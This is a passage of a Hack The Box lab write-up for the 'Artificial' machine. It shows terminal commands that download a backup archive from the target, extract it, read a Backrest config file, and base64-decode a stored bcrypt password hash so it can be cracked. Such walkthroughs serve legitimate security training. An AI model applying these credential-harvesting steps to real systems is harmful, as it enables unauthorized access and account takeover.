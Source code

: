 
Now extract the file. Under `backrest/.config/backrest/config.json`, we have an encoded hash. Decode it and crack the hash.

```
tar -xvf backrest_backup.tar.gz
```
```
cat backrest/.config/backrest/config.json
```
```
echo "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP" | base64 -d
```

```
┌──(kali㉿kali)-[~/HTB-machine/artificial/writeup]
└─$ wget http://10.129.148.48:8000/backrest_backup.tar.gz                   
--2025-06-23 09:01:21--  http://10.129.148.48:8000/backrest_backup.tar.gz
Connecting to 10.129.148.48:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 52357120 (50M) [application/gzip]
Saving to: ‘backrest_backup.tar.gz’

backrest_backup.tar.gz          100%[=====================================================>]  49.93M  1.84MB/s    in 31s     

2025-06-23 09:01:52 (1.63 MB/s) - ‘backrest_backup.tar.gz’ saved [52357120/52357120]

                                                                                                                              
┌──(kali㉿kali)-[~/HTB-machine/artificial/writeup]
└─$ tar -xvf backrest_backup.tar.gz                  
backrest/
backrest/restic
backrest/oplog.sqlite-wal
backrest/oplog.sqlite-shm
backrest/.config/
backrest/.config/backrest/
backrest/.config/backrest/config.json
backrest/oplog.sqlite.lock
backrest/backrest
backrest/tasklogs/
backrest/tasklogs/logs.sqlite-shm
backrest/tasklogs/.inprogress/
backrest/tasklogs/logs.sqlite-wal
backrest/tasklogs/logs.sqlite
backrest/oplog.sqlite
backrest/jwt-secret
backrest/processlogs/
backrest/processlogs/backrest.log
backrest/install.sh
                                                                                                                              
┌──(kali㉿kali)-[~/HTB-machine/artificial/writeup]
└─$ cat backrest/.config/backrest/config.json
{
  "modno": 2,
  "version": 4,
  "instance": "Artificial",
  "auth": {
    "disabled": false,
    "users": [
      {
        "name": "backrest_root",
        "passwordBcrypt": "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP"
      }
    ]
```
